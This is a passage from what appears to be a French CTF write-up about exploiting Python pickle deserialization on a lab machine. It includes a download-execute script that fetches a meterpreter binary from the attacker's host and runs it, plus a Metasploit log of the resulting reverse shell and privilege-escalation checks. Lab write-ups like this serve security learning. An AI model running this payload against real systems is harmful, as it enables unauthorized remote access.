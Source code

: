 On remarque tout de suite la présence d'une dé-sérialisation via Pickle [bien connue pour être exploitable](https://web.archive.org/web/20141130012429/http://nadiaspot.com/why-python-pickle-is-insecure/).  

C'est bien le 3ème CTF où je tombe sur du pickle, comme quoi si tu n'as pas exploité du pickle à 30 ans t'as raté ta vie :D  

Inutile de faire dans l'originalité, j'écrit d'abord un script de type download-execute :  

```python
import os
import urllib
import sys
import time
urllib.urlretrieve("http://10.10.15.207/devloop_meterpreter", "/var/tmp/devloop_meterpreter")
os.system("chmod 777 /var/tmp/devloop_meterpreter;/var/tmp/devloop_meterpreter &")
time.sleep(10)
```

Et on passe ça à [evilPick](https://github.com/francescolacerenza/evilPick) qui peut en plus nous l'encoder en base64 :)  

Pour l'envoi du payload, au choix avec cURL / requests / whatever...  

```plain
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.

[*] Started reverse TCP handler on 10.10.15.207:443
msf exploit(multi/handler) > [*] Sending stage (861480 bytes) to 10.10.10.91
[*] Meterpreter session 1 opened (10.10.15.207:443 -> 10.10.10.91:41722) at 2018-09-04 12:16:24 +0200

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=1002, gid=1002, euid=1002, egid=1002

msf exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.10.91 - Collecting local exploits for x86/linux...
[*] 10.10.10.91 - 23 exploit checks are being tried...
[+] 10.10.10.91 - exploit/linux/local/network_manager_vpnc_username_priv_esc: The target service is running, but could not be validated.
[+] 10.10.10.91 - exploit/linux/local/pkexec: The target service is running, but could not be validated.
[*] Post module execution completed
```

Cette fois on a notre shell avec l’utilisateur *roosa* :)   
